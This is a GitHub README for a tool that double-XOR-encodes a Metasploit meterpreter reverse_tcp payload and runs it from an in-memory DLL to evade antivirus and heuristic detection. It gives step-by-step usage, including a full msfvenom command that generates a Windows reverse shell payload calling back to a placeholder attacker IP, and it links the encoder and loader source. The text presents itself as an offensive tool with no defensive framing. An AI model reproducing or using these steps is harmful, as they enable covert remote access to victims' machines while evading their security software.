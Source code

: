 # RS_meterpreter_bypass
These two C# programs are used to encode and create a .dll file from a starting metasploit xor encoded reverse_tcp payload.

# How to use
Fisrt of all: generate shellcode in C# format, and use msfvenom's built-in encoder xor_dynamic

    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=4444 -f csharp -e x64/xor_dynamic

Take note of the *buf* variable showed in output.

Now we use our [_XOR_encoder_](https://github.com/marcoigorr/RS_meterpreter_bypass/blob/6e7cf2a56639a471bc8a45d42c06cf47eb2ff10d/XOR_encoder.cs), open this in a new console project on Visual Studio Community and build an executable solution.

- Remember to change the byte array *buf*


We have now a double XOR-encoded shellcode, to bypass AV we will create a .dll to run in memory. We will use [_Class1_](https://github.com/marcoigorr/RS_meterpreter_bypass/blob/6e7cf2a56639a471bc8a45d42c06cf47eb2ff10d/Class1.cs) which is used to execute our payload and also bypass heuristics
